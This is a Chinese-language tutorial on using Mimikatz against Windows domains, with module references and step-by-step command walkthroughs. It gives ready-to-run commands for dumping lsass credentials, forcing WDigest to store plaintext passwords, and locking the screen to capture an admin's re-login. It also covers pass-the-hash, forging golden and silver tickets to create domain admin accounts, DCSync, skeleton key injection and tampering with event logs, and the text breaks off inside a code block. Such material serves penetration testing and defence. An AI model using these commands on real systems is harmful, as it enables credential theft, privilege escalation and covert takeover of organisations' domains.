## Mimikatz详细使用总结

- - -

## [基本命令](#toc_)

```plain
cls：       清屏
standard：  标准模块，基本命令
crypto：    加密相关模块
sekurlsa：  与证书相关的模块
kerberos：  kerberos模块
privilege： 提权相关模块
process：   进程相关模块
serivce：   服务相关模块
lsadump：   LsaDump模块
ts：        终端服务器模块
event：     事件模块
misc：      杂项模块
token：     令牌操作模块
vault：     Windows 、证书模块
minesweeper：Mine Sweeper模块
net：
dpapi：     DPAPI模块（通过API或RAW访问）[数据保护应用程序编程接口]
busylight： BusyLight Module
sysenv：    系统环境值模块
sid：       安全标识符模块
iis：       IIS XML配置模块
rpc：       mimikatz的RPC控制
sr98：      用于SR98设备和T5577目标的RF模块
rdm：       RDM（830AL）器件的射频模块
acr：       ACR模块
version：   查看版本
exit：      退出
```

## [模块详解](#toc__1)

### [privilege（权限调整）](#toc_privilege)

#### [privilege::debug（最基本的操作）](#toc_privilegedebug)

提升为debug权限

#### [privilege::id \[number\]](#toc_privilegeid-number)

调整id来调整权限 20是dubug 10是driver

```plain
Privilege::debug：请求调试权限。
Privilege::driver：请求装载驱动权限。
Privilege::security：请求安全权限。
Privilege::tcb：请求 tcb 权限。
Privilege::backup：请求 backup 权限。
Privilege::restore：请求恢复权限。
Privilege::sysenv：请求系统环境权限。
Privilege::id：请求 id 特权，参数后跟具体的 id 值，例如请求特权 8：privilege：：id 8。
Privilege::name：请求指定名称的权限。
```

### [sekurlsa模块（提取用户凭证功能）](#toc_sekurlsa)

```plain
           msv  -  获取 LM & NTLM 凭证，可以获取明文密码。
       wdigest  -  获取 WDigest 凭证，可以获取明文密码
      kerberos  -  获取 Kerberos 凭证。
         tspkg  -  获取 TsPkg 凭证。
       livessp  -  获取LiveSSP 凭证。
           ssp  -  获取凭证。
logonPasswords  -  获登录用户信息及密码，如果是在系统权限或者 psexec 进入的系统权限下，直接使用该命令，而无需运行 privilege::debug，否则需要运行该命令。
       process  -  切换或者恢复到 lsass 初始状态。
      minidump  -  切换或者恢复到 minidump 初始状态。
           pth  -  Pass-the-hash
        krbtgt  -  krbtgt!
   dpapisystem  -  显示DPAPI_SYSTEM密码值。
         trust  -  显示 Kerberos 票据。
    backupkeys  -  首选备份主密钥
       tickets  -  列出Kerberos票据
         ekeys  -  显示 Kerberos 加密密钥。
         dpapi  -  显示内存中的 MasterKeys
       credman  -  显示管理员凭证。
```

[](https://storage.tttang.com/media/attachment/2022/06/17/eeffc2dd-23a1-438d-808b-2140b5b7004c.png)

#### [sekurlsa::wdigest](#toc_sekurlsawdigest)

通过可逆方式 提取用户密码明文

#### [sekurlsa::kerberos](#toc_sekurlsakerberos)

抓取kerberos的明文密码

#### [sekurlsa::msv](#toc_sekurlsamsv)

提取NTLM/LM hash凭证

#### [sekurlsa::ssp/livessp/tspkg](#toc_sekurlsassplivessptspkg)

抓取对应的明文密码

#### [sekutlsa::logonPasswords](#toc_sekutlsalogonpasswords)

抓取以上各种密码

#### [sekurlsa::process](#toc_sekurlsaprocess)

将自己的进程切换到lsass进程中，之前只是注入读取信息

#### [sekurlsa::minidump file](#toc_sekurlsaminidump-file)

这个模块可以读取已经打包的内存信息，

比如上述命令已经将lsass进程中的内存信息保存为dmp文件了 那么此时我们可以离线读取其中的信息 但是需要指定文件名。

加载dmp文件，并导出其中的明文密码

```plain
 sekurlsa::minidump lsass.dmp

 sekurlsa::logonpasswords full
```

#### [sekurlsa::pth](#toc_sekurlsapth)

pass-the-hash hash传递攻击

### [Kerberos模块（常用于金银票据）](#toc_kerberos)

#### [kerberos::list](#toc_kerberoslist)

列出当前所有的票据（等同于klist）

#### [kerberos::purge](#toc_kerberospurge)

清除系统中的票据

#### [kerberos::ptt](#toc_kerberosptt)

Pass The Ticket 即票据传递

#### [Kerberos::golden](#toc_kerberosgolden)

伪造票据 如金银票据

具体的操作看之前总结的黄金票据与白银票据

### [Crypto（ 导出未标记为可导出的证书）](#toc_crypto)

一般私钥会被标记为不可导出，使用这个参数可以给系统打patch，之后就可以导出了。

```plain
Module :        crypto
Full name :     Crypto Module

       providers  -  List cryptographic providers //该命令列出所有 CryptoAPI 提供者。
          stores  -  List cryptographic stores //列出系统存储中的逻辑存储，crypto::stores /systemstore:local_machine。
    certificates  -  List (or export) certificates //显示或者导出证书。
            keys  -  List (or export) keys containers //列出或者显示密钥。
              sc  -  List smartcard readers //此命令列出系统上的智能卡/令牌读取器或将其移出系统；当 CSP 可用时，它会尝试在智能卡上列出密钥。
            hash  -  Hash a password with optional  //显示当前用户的的哈希（LM、NTLM、md5、sha1、sha2）计算值。username
          system  -  Describe a Windows System Certificate (file, TODO:registry or hive) //描述 Windows 系统证书（注册表或者 hive 文件）。
          scauth  -  Create a authentication certitifate (smartcard like) from a CA //从 CA 创建一个认证（智能卡等）
        certtohw  -  Try to export a software CA to a crypto (virtual)hardware //尝试将软件 CA 导出到加密（虚拟）硬件中。
            capi  -  [experimental] Patch CryptoAPI layer for easy export //修补 CryptoAPI 程序方便导出。
             cng  -  [experimental] Patch CNG service for easy export //修补 CNG 服务方便导出。
         extract  -  [experimental] Extract keys from CAPI RSA/AES provider //从 CAPI RSA/AES 提供者获取密钥。
```

### [Process（进程模块）](#toc_process)

```plain
   list  -  List process //列出进程
exports  -  List exports //导出进程
imports  -  List imports //导入进程
  start  -  Start a process //开始一个进程，后跟进程名称
   stop  -  Terminate a process //停止一个进程，process::stop /pid:1692（结束 pid 为1692的进程）。
suspend  -  Suspend a process //挂起一个进程。
 resume  -  Resume a process //恢复一个进程。
    run  -  Run! //运行一个进程。
   runp  -
```

#### [process::list](#toc_processlist)

列出进程列表

#### [process::exports](#toc_processexports)

导出进程列表

#### [process::imports](#toc_processimports)

导入列表

#### [process::start](#toc_processstart)

开始一个进程

#### [process::stop](#toc_processstop)

停止一个进程

#### [process::suspend](#toc_processsuspend)

冻结一个进程

#### [process::resume](#toc_processresume)

从冻结中恢复

#### [process::run notepad](#toc_processrun-notepad)

运行一个程序

#### [process::runp](#toc_processrunp)

以SYSTEM权限打开一个新的mimikatz窗口

### [Lsadump模块（读取域控中域成员的Hash）](#toc_lsadumphash)

```plain
Lsadump::secrets：从 registry 或者 hives 获取保存的密码凭据，可以直接获取明文密码。
Lsadump::cache：获取内存中的密码值。
Lsadump::lsa：从 lsa 服务器获取密码，lsadump::lsa /inject /name:krbtgt。
Lsadump::trust：Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fbackupkeys rpdata。
Lsadump::dcsync：Ask a DC to synchronize an object。
Lsadump::dcshadow：They told me I could be anything I wanted, so I became a domain controller。
Lsadump::setntlm：Ask a server to set a new password/ntlm for one user。
Lsadump::changentlm：Ask a server to set a new password/ntlm for one user。
Lsadump::netsync：Ask a DC to send current and previous NTLM hash of DC/SRV/WKS。
```

#### [lsadump::lsa /patch](#toc_lsadumplsa-patch)

读取所有与用户的哈希

#### [lsadump::dcsync](#toc_lsadumpdcsync)

通过 dcsync，利用目录复制服务（DRS）从NTDS.DIT文件中检索密码哈希值，可以在域管权限下执行获取

查看域内指定用户信息，包括NTLM哈希等

lsadump::dcsync /domain:nanhu.com /user:nanhu

查看所有域用户

lsadump::dcsync /domain:nanhu.com /all /csv

#### [lsadump::sam](#toc_lsadumpsam)

sam表获取Hash

```plain
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM

lsadump::sam /sam:SAM /system:SYSTEM
```

### [Sid（安全标识符模块）](#toc_sid)

#### [sid::lookup](#toc_sidlookup)

该功能实现SID与对象名之间的相互转换，有三个参数

/name: 指定对象名 将其转换为SID

/sid: 指定SID 将其转换为对象名

/system: 指定查询的目标计算机

[](https://storage.tttang.com/media/attachment/2022/06/17/637717b8-5723-4075-8fd0-b7a7c605cb4d.png)

#### [sid::query](#toc_sidquery)

该功能支持通过SID或对象名来查询对象的信息，有三个参数

/sam: 指定要查询的对象的 sAMAccountName

/sid: 指定要查询对象的 objectSid

/system: 指定查询的目标域控（LDAP）

[](https://storage.tttang.com/media/attachment/2022/06/17/5a0c24bd-08f5-4edd-be1d-0917354f7dfe.png)

功能原理就是直接使用LDAP查询

#### [sid::modify](#toc_sidmodify)

该功能用修改一个域对象的SID 可以使用的参数有三个

/sam: 通过sAMAccountName指定要修改SID的对象

/sid: 通过objectSid 指定要修改SID的对象

/new: 要修改对象的新SID

使用该功能是需要先使用sid::patch功能对限制LDAP修改SID的函数进行patch（先开启debug权限）

[](https://storage.tttang.com/media/attachment/2022/06/17/8d6683f6-cadd-4f63-901a-503a969a8bec.png)

#### [sid::add](#toc_sidadd)

该用能用来向一个域对象添加SID History属性

/sam: 通过sAMAccountName指定要修改的对象

/sid: 通过objectSid指定要修改的对象

/new: 要修改SID History为哪个对象的SID 该参数可指定目标的sAMAccountName 或 objectSid

使用该功能要先执行sid::patch

[](https://storage.tttang.com/media/attachment/2022/06/17/1387926f-df20-4e8a-a765-0b4faa9a7af7.png)

#### [sid::clear](#toc_sidclear)

该功能用来清空一个对象的 SID History 属性

/sam: 要清空对象的sAMAccountName

/sid: 要清空对象的objectSid

#### [sid::patch](#toc_sidpatch)

对域控LDAP 修改过程中的验证函数进行patch，需要在域控上执行，该功能没有参数

patch 可以分为两个步骤 第一步patch成功可以使用 sid::add 功能 两步都成功可以使用sid::modify 功能

[](https://storage.tttang.com/media/attachment/2022/06/17/db64c984-fe74-40fe-9290-d01b95923da6.png)

##### [patch失败问题](#toc_patch)

由于mimikatz中内存搜索的标记覆盖的windows版本不全，所以经常会出现patch失败的问题。例如在我的Windows Server 2016上，第二步patch就会失败，这种情况多半是因为mimikatz中没有该系统版本对应的内存patch标记

[](https://storage.tttang.com/media/attachment/2022/06/22/cda4b3e7-ea3b-4e73-8897-0a9d7e7d64a8.png)

此时我们只需要将目标的ntdsai.dll拿下来找到目标地址

[](https://storage.tttang.com/media/attachment/2022/06/22/0033c7bb-43cf-4dba-8f20-0ff7fed9117b.png)

然后修改为正确的内存标记和对应的偏移地址即可，如果新增的话记得定义好版本号等信息

[](https://storage.tttang.com/media/attachment/2022/06/22/aff6b2e7-4786-41b1-b0d7-42b68d6dce54.png)

此时重新编译后就可以正常patch了

[](https://storage.tttang.com/media/attachment/2022/06/22/6b47e0ca-3ff1-4b1c-a551-44eec9c0622d.png)

### [Service(服务管理)](#toc_service)

```plain
service::start：开始服务。
service::remove：移除服务。
service::stop：停止服务。
service::suspend：暂停服务。
service::resume：恢复服务。
service::preshutdown：预关闭服务。
service::shutdown：关闭服务。
service::list：列出服务。
service::+ - 安装 Mimikatz 服务。
service::- - 卸载 Mimikatz 服务。
```

### [ts （终端服务模块）](#toc_ts)

```plain
ts::sessions   显示当前对话
ts::multirdp    允许多个用户使用rdp 安装rdp布丁
```

### [event（事件模块）](#toc_event)

```plain
event::drop  启动时间补丁服务 不在记录新产生的事件
event::clear  清楚时间日志
```

### [token（令牌操作模块）](#toc_token)

```plain
token::whoami  显示当前身份
token::list    列出系统所有的令牌
token::elevate  冒充令牌
token::run     运行
token::revert   恢复到进程令牌
```

### [misc （杂项模块）](#toc_misc)

打开 cmd、regedit、taskmgr、ncroutemon、detours、wifi、addsid、memssp、skeleton 等。

## [功能实现](#toc__2)

### [sekurlsa模块中logonpasswords抓取密码操作](#toc_sekurlsalogonpasswords)

```plain
1.交互式抓取明文密码
privilege::dubug
sekurlsa::logonpasswords
2.更方便的mimikatz命令
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full"
3.输出日志
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit
4.bat脚本
@echo off
mimikatz.exe privilege::debug sekurlsa::logonpasswords exit > C:\programdata\log.txt
```

[](https://storage.tttang.com/media/attachment/2022/06/17/d991b7f9-03a8-4d90-b728-813636c26e72.png)

#### [prodump+mimikatz +注册表（适用于win10及2012以后的版本）](#toc_produmpmimikatz-win102012)

```plain
procdump.exe -accepteula -ma lsass.exe lsass.dmp 
mimikatz.exe # "sekurlsa::minidump C:\Desktop\lsass.dmp" "sekurlsa::logonpasswords full" exit
```

如果不修改注册表 抓取后密码会显示 NULL

可以通过修改注册表 让Wdigest Auth保存明文口令：

```plain
reg add HKLM/SYSTEM/CurrentControlSet/Control/SecurityProviders/WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

如果想恢复原样 1改成0即可

修改注册表后需要用户注销或者重新登录之后才会生效

强制锁屏脚本

```plain
Function Lock-WorkStation {

$signature = @"
[DllImport("user32.dll", SetLastError = true)]
public static extern bool LockWorkStation();
"@

$LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru

$LockWorkStation::LockWorkStation() | Out-Null

}

Lock-WorkStation
```

powershell -file lock-screen.ps1

优点：用procdump导出lsass.dmp后拖回本地抓取密码来规避杀软。

缺点：修改注册表之后,需要重新登录才能生效,可以使用锁屏脚本(锁屏之前，一定要查看管理员是否在线)，让管理员重新登录

**windows server 2012 mimikatz 不兼容**

改变思路,使用powershell版本的mimikatz。在win2012 R2测试。

把如下链接的内容复制到新建文本，然后重命名为Invoke-Mimikatz.ps1

[https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)

cmd下执行，本地加载

powershell -exec bypass “import-module .Invoke-Mimikatz.ps1;Invoke-Mimikatz”

### [sekurlsa模块中的 pth =》pass-the-hash （hash传递攻击）](#toc_sekurlsa-pth-pass-the-hash-hash)

是内网渗透实战中一中常见且高效的横向移动方法

通过修改内存的方法实现。  
[](https://storage.tttang.com/media/attachment/2022/06/17/e8292ce4-24b2-4d24-a2bb-7caa25fc0439.png)

由NTLM 认证过程

客户端向服务端发送协商消息后 ，接受由服务端返回的challenge 然后客户端使用用户的Hash 与challenge进行加密的到respond 再将challenge，respond以及username等信息发送至客户端完成身份认证，

由此可知在身份认证过程中respond需要的只有用户Hash 并不需要明文密码的参与，所以

Pass-The-Hash正是借助了“无需明文密码参与”这一身份认证特性才得以实现。

实现思路 将lsass中缓存的当前用户凭证，通过内存修改替换成攻击者所控制的NTLM Hash 使用替换后的用户凭证进行请求网络资源的身份认证。

#### [操作](#toc__3)

```plain
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:test /domain:test.com /ntlm:c5a237b7e9d5f708d8436b2584a25fa1
```

然后可以利用mimikatz弹出的cmd窗口执行操作

### [kerberos模块 —— 黄金白银票据](#toc_kerberos_1)

#### [黄金票据](#toc__4)

登录域内普通用户，通过mimikatz中的kerberos::ptt功能将 golden.kirbi导入内存中

```plain
mimikatz # kerberos::purge   //清空以前的票据
mimikatz # kerberos::list  //列出票据为空证明已经清空
mimikatz # kerberos::ptt golden.kirbi
```

[](https://storage.tttang.com/media/attachment/2022/06/17/697a808f-438c-437c-8b87-b437653f68e1.png)

然后尝试创建一个ccc的域管账号 命令执行成功

```plain
# net user ccc Qwe123...  /add /domain
# net group "domain admins"  ccc /add /domain
```

[](https://storage.tttang.com/media/attachment/2022/06/17/e5350f64-c0f5-4aa4-928e-6fcc43a0866c.png)

#### [白银票据](#toc__5)

登录域管用户，用管理员权限打开cmd cd到mimikatz的目录

执行mimikatz命令 得到SID和NTLM

```plain
# mimikata.exe "privilege::debug"  "sekurlsa::logonpasswords" "exit" > log.txt
```

[](https://storage.tttang.com/media/attachment/2022/06/17/22097384-83ec-4b75-9bc3-7d65aaaaf39f.png)

先使用mimikatz清空票据 再导入伪造的票据

```plain
mimikatz # kerberos::purge  //清空票据
```

伪造白银票据

```plain
mimilatz # kerberos::golden /domin:cyber.com /sid:S-1-5-................  /target:scene.ctber.com /service:cifs /rce4:................. /user:test /ptt 


/domain   当前域名称
/sid    SID值，和金票一样取前一部分
/target  目标主机  
/service  服务名称 这里需要访问共享文件 所以是cifs
/rce4  目标主机的Hash值
/user  伪造的用户名
/ptt   表示的是Psss TheTicket攻击，是把生成的票据导入内存，也可以使用、ticket导出之后再使用kerberos::ptt 来导入
```

可以通过klist命令查看当前会话的kerberos票据可以看到生成的票据

[](https://storage.tttang.com/media/attachment/2022/06/17/cbd95149-830f-4e3a-b612-689b393574a6.png)

验证创建域管账号

```plain
net user test Qwe123... /add /domain
```

或者访问DC的共享文件夹

```plain
dir \\cyber.com\c$
```

### [misc模块中的skeleton skeleton key （万能钥匙）](#toc_miscskeleton-skeleton-key)

skeleton key 就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对lsass.exe 进行注入 所以 **重启会失效**

```plain
//提升权限
mimikatz # privilege::debug
//注入 skeleton key
mimikatz # misc::skeleton
```

[](https://storage.tttang.com/media/attachment/2022/06/17/d46124ed-05ce-46f7-9801-d136ce4daf4b.png)

如此显示证明 skeleton Key已经注入成功

此时会在域内所有的账号中添加一个 skeleton key 密码默认为mimikatz

在不适用域管理员原始密码的情况下，使用注入的 skeleton key 同样可以成功链接系统

在域内其他机器尝试使用 skeleton key 去访问域控，添加的密码是 mimikatz

```plain
